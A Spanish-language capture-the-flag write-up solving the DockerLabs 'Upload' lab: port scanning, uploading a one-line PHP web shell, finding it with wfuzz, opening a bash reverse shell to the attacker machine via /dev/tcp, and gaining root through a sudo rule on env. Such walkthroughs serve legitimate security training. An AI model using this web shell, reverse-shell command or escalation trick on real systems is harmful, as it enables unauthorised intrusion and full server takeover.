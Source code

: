 ![image](https://github.com/Crisstianpdx/CTFs-WriteUps/blob/897599be5b5fc8376144035120706ace760edd10/DockerLabs/Upload/imgs/upload-banner.png)

[Maquina](https://mega.nz/file/pOdwgYbB#8lTyf-mWFNq7xvKWObKUV9gkrZj3nzhuHVlGQmnZ6BQ)   \   [Dockerlabs](https://dockerlabs.es/)


## Reconocimiento

Comenzamos con un escaneo de `nmap` a todos los puertos de la maquina vulnerable en busca de puertos abiertos.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.2 -oG allPorts
________________________________________________________________

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Solo hay un puerto abierto, el **puerto 80**. Este corresponde a un servicio http(Hyper Text Transfer Protocol) o servicio web en pocas palabras.

Ahora hacemos un segundo escaneo con `nmap` sobre este puerto abierto con un conjunto de scripts basicos de reconocimientos que trae por defecto nmap con el parametro `-sC` he incluimos el parametro `-sV` para que nos detecte la version del servicio que corre en dicho puerto. Estos dos se pueden escribir como `-sCV`.

```shell
nmap -p80 -sCV 172.17.0.2 -oN targeted
______________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
```
En los resultados del escaneo podemos ver que dentro del **puerto 80** se aloja una pagina web que, tal parece, nos deja subir archivos al servidor.

Visualizamos la pagina web.

![image](https://github.com/Crisstianpdx/CTFs-WriteUps/blob/a656f31901b30f06faa0c4822c72b2de72a979f9/DockerLabs/Upload/imgs/upload-img1.png)

Al tener la oportunidad de subir archivos a una web, en lo primero que pensariamos es en subir un archivo *php* con el que podamos ejecutar comandos dentro de la maquina atraves de un paramentro definido en el script. Esto sera asi en caso de que la maquina no aplique ningun tipo de sanitizacion sobre los tipos de archivos que se pueden subir.

Creamos un archivo *php* con un paramentro `cmd` al cual le pasaremos los comandos que deceemos ejecutar.
```shell
echo "<?php system(\$_GET['cmd']); ?>" >> test.php
```

El archivo se logra subir sin ningun problema por lo que, no se esta aplicando ningun tipo de sanitizacion en el servidor.

Ahora debemos encontrar la ruta en donde ha sido guardado nuestro archivo. Para ello, haremos uso de `wfuzz` para encontrar esa ruta en donde fue guardado nuestro archivo. Con el parametro `--hc=404` excluimos todos las respuestas HTTP con codigo 404 (Not Found) que pueda regresar el servidor.

```shell
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt http://172.17.0.2/FUZZ
________________________________________________________________________________________________________________
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/FUZZ
Total requests: 1273832

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000001:   200        53 L     104 W      1361 Ch     "# directory-list-2.3-big.txt"
...
000000164:   301        9 L      28 W       310 Ch      "uploads"
```

`Wfuzz` nos ha econtrado un directorio llamado **"uploads"**.

Si revisamos ese directorio podremos ver que ahi se encuntra alojado nuestro archivo *test.php*.

![image](https://github.com/Crisstianpdx/CTFs-WriteUps/blob/a656f31901b30f06faa0c4822c72b2de72a979f9/DockerLabs/Upload/imgs/upload-img2.png)

Nos dirijimos directamente atraves de la URL a nuestro archivo php y hacemos un llamado al parametro que predefinimos anteriormente para que ejecute el comando `id` en la maquina.

```
http://172.17.0.2/uploads/test.php?cmd=id
```

![image](https://github.com/x4nderht/CTFs/blob/effd1af3fa859eb27c3a2ecb55b427217151c9f0/DockerLabs/Upload/imgs/upload-img3.png)
Al hacer esto podremos observar la respuesta del servidor ante el comando `id` por lo que el archivo funciona y el servidor interpreta de forma correcta las peticiones hechas atraves del archivo php. Sabiendo esto, podemos intentar entablar una revershell del servidor a nuestra maquina atacante. 

## Explotacion

Nos colocamos en escucha con `netcat` por el **puerto 443** en espera de la conexion.
```shell
nc -nlvp 443
```
Y atraves del parametro `cmd` de nuestro archivo le hacemos la peticion al servidor para que establezca una conexion con nuestra maquina atacante. Cambiamos el caracter `&` por su expresion en URL(`%26`), para que pueda ser interpretado por el servidor:
```shell
http://172.17.0.2/uploads/test.php?cmd=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```
![image](https://github.com/Crisstianpdx/CTFs-WriteUps/blob/a656f31901b30f06faa0c4822c72b2de72a979f9/DockerLabs/Upload/imgs/upload-img4.png)
Y hemos logrado ganar acceso como el usuario *www-data*.

## Escalada de privilegios

Ejecutamos un `sudo -l` para ver si existe algun comando que podamos ejecutar con altos privilegios.

```shell
sudo -l
________________________
...
User www-data may run the following commands on 41e845320485:
    (root) NOPASSWD: /usr/bin/env
```
Vemos que el usuario *www-data* puede ejecutar `/usr/bin/env` como *root* sin necesidad de proporcionar alguna credencial. Por ende, ejecutamos una **bash** atraves del comando `env` como *root*.
```shell
sudo env /bin/bash
```

Y comprobamos con el comando `whoami` o `id` que ya somos usuario *root*.

![image](https://github.com/Crisstianpdx/CTFs-WriteUps/blob/a656f31901b30f06faa0c4822c72b2de72a979f9/DockerLabs/Upload/imgs/upload-img5.png)

##

De esta forma hemos resuelto la maquina Upload de DockerLabs.






